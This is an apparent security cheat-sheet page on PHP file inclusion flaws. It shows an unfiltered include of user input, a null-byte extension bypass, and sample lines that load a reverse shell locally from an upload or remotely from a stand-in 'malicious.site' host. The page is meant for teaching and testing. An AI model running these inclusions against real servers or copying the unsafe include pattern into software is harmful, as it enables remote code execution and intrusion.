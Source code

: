 # Files/Paths exploits

<hr class="sl">

## File inclusion

<div class="row row-cols-md-2"><div>

Files inclusion refer to websites that are importing <small>(`import/require` in PHP)</small> a file using the user input. For instance: `http://malicious.site/?lang=FR` that is doing a include using `$_GET["lang"]`.

In the following include with no filtering, we may enter a path 

```php
include "$_GET[lang].php"
```

**PHP < 5.3.4**: if the programmer appended an extension, such as `.php`, but you want to bypass it, you can use the **Null Byte** `%00` which indicates the end of a string.

```php
include "xxx.elf%00.php" // include xxx.elf
```

</div><div>

**Local File Inclusion (LFI)** 🏠: inject a local file

```php
// you uploaded a reverse shell as your avatar
include "./uploads/avatar.png.php"
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php
// allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```
</div></div>